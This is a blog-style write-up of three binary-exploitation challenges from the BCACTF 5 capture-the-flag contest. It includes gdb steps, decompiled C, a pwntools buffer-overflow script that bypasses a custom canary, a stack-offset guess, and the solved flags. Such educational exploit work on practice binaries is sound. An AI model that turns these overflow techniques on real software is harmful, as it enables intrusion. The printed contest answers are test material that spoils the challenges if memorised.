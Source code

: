 ```yaml
---
title: 'bcactf 5 2024'
description: 'Here is the solutions to some of the challenges in bcactf 5'
pubDate: 'Mar 27 2024'
heroImage: 
  src: '/blog-placeholder-1.jpg'
  alt: ''
order: 1
tags: ["writeup"]
---
```


# Background Information
I went to this competition as BT Lazy Bums, we did a lot worse than we expected but what could we do? I got lazy so I'm just gonna post the pwn challenges I did.

## Binary Exploitation

### Inaccessable
> I wrote a function to generate the flag, but don't worry, I bet you can't access it!
This felt more like a reverse engineering challenge, but the solve is simple.

Load up gdb and do `info functions`

```bash
0x0000000000400536  c
0x0000000000400599  f
0x00000000004005ea  win
0x00000000004006b8  main
```

So we have a win function. And the hint said to just jump to it. Ok.

```bash
gef➤  jump win
Continuing at 0x4005ee.
bcactf{W0w_Y0u_m4d3_iT_b810c453a9ac9}
[Inferior 1 (process 39665) exited with code 046]
```


### canary keeper
> My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

Based on the title, the solution for this problem is to bypass the "canary", which is basically an alarm that will close a program once it detects a buffer overflow.

Let's look at the code:

(binary ninja)
```c

int32_t main(int32_t argc, char** argv, char** envp)
{
    int64_t var_48;
    __builtin_strncpy(&var_48, "FLAG", 0x40);
    int32_t var_4f;
    __builtin_strncpy(&var_4f, "canary", 7);
    printf("Enter a string: ");
    void buf;
    gets(&buf);
    int32_t rax_3;
    if (check_canary(&var_4f) == 0)
    {
        puts("Buffer overflow detected!");
        rax_3 = 1;
    }
    else if (check_flag(&var_48) == 0)
    {
        printf("Flag: %s\n", "FLAG");
        rax_3 = 0;
    }
    else
    {
        puts("No changes in flag detected!");
        rax_3 = 1;
    }
    return rax_3;
}

```

So as we can see that the input size is 73, and that there is a custom canary coded. What we can do with this is to overflow the binary, but append the canary so that it passes the check.

Here's our tactic: 

1. Input 73 A's and append the binary string "canary" 
2. Add a four character anything. I'll just use flag
3. Get the flag.

Unfortunately I didn't realize that you had to use null bytes in order to allow the canary to bypas the check with data after it. Two days to realize that.

So here's the solve script:

```python
from pwn import *
from pwn import p64
elf = ELF('./provided')


#its 73 space in the input(?)

if args.REMOTE:
    r = remote('challs.bcactf.com', 32101)
else:
    r = process(elf.path)


payload = b'A' * (73)
#does the canary check(?)
payload += b'canary'
payload += b'\x00'
payload += b'flag'

#payload += p64(0x63616e617279)

print(payload)
r.sendline(payload)
print(r.recvall())

```

And we get the flag.

```bash
[*] '/home/jake/bcactf/canary/provided'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.bcactf.com on port 32101: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcanary\x00flag'
[+] Receiving all data: Done (58B)
[*] Closed connection to challs.bcactf.com port 32101
b'Enter a string: Flag: bcactf{s1mple_CANaRY_9b36bd9f3fd2f}\n'
jake@edgygamer:~/bcactf/canary$ 
```

### pwnage
> It's either a bug, a hack, an exploit, or it's pwnage. Let this challenge stand as one of the first of many stairs to mastery over that which can only be described as pwn.

Let's look at the source code provided. 

```c

int main() {
    // Hint: how do these values get stored?
    void* first_var;
    char* guess;
    char flag[100];
    load_flag(flag, 100);

    puts("Welcome to the most tasmastic game of all time!");
    wait_for(3);
    puts("Basically it's just too simple, I've put the");
    puts("flag into the memory and your job is ... to");
    puts("guess where it is!!");
    wait_for(2);
    puts("Have fun!");
    wait_for(1);
    puts("Oh and before you start, I'll give you a little");
    puts("hint, the address of the current stackframe I'm");
    printf("in is %p\n", (&first_var)[-2]);
    wait_for(3);
    puts("Okay anyway, back to the game. Make your guess!");
    puts("(hexadecimals only, so something like 0xA would work)");
    printf("guess> ");

    guess = read_pointer();

    wait_for(3);

    puts("Okay, prepare yourself. If you're right this");
    puts("will print out the flag");
    
    wait_for(1);
    puts("Oh, and if your wrong, this might crash and");
    puts("disconnect you\nGood luck!");

    printf("%s\n", guess);

    return 1;
}
```

Ok, so it prints out the current stack frame of first_var. It then asks for a guess in hexadecimal format, which is a guess for the stack frame of the flag.

We can look at this part specifically:

```c
void* first_var;
char* guess;
char flag[100];
load_flag(flag, 100);
```

So all we need to do is "shift" upwards by adding bytes to the stackframe. Simple. I kind of guessed the offset, but it seems to be 0x20 from the provided stackframe.

```bash
Welcome to the most tasmastic game of all time!
 . . .
Basically it's just too simple, I've put the
flag into the memory and your job is ... to
guess where it is!!
 . .
How fun is that!
 .
Oh and before you start, I'll give you a little
hint, the address of the current stackframe I'm
in is 0x7ffeb79507b0
 . . .
Okay anyway, back to the game. Make your guess!
(hexadecimals only, so something like 0xA would work)
guess> 0x7ffeb79507d0
 . . .
Okay, prepare yourself. If you're right this
will print out the flag
 .
Oh, and if your wrong, this might crash and
disconnect you
Good luck!
bcactf{0nE_two_thR3E_f0ur_567___sT3ps_t0_PwN4G3_70cc0e5edd6ea}
```

